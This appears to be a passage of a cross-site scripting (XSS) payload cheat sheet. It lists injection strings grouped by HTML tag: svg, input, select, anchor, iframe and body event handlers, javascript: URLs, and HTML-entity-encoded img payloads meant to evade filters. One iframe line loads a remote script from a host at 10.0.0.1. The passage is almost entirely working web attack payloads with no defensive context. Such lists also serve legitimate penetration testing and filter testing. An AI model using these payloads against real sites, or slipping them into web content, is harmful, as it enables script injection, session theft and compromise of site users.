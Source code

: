 ### SVG Tags

```txt
"><svg onload=alert(1)>
<svg onmouseover="alert(1)"></svg>
<svg><animatetransform onclick="alert(1)"></svg>
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

### Input Tags

```bash
<input autofocus onfocus=alert(1)>
```

### Select Tags

```bash
<select autofocus onfocus=alert(1)>
```

### Anchor Tags

```txt
<a onmouseover=alert(1)>click</a>
<a href="javascript:alert(1)">Click</a>
```

### Iframe Tags

```txt
<iframe src="javascript:alert(1)"></iframe>
<iframe src=http://10.0.0.1:8000/xss.js></iframe>
<iframe onload=alert(1)></iframe>
```

### Body Tags

```bash
<body onload=alert(/XSS/.source)>
<body background="javascript:alert(1)">
```

### HTML Entity

Reference: [https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#img-onerror-and-javascript-alert-encode](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#img-onerror-and-javascript-alert-encode)

```html
<!-- <img src=javascript:alert('XSS')> -->
<img src=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

<!-- onerror="javascript:alert('XSS')" -->
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```
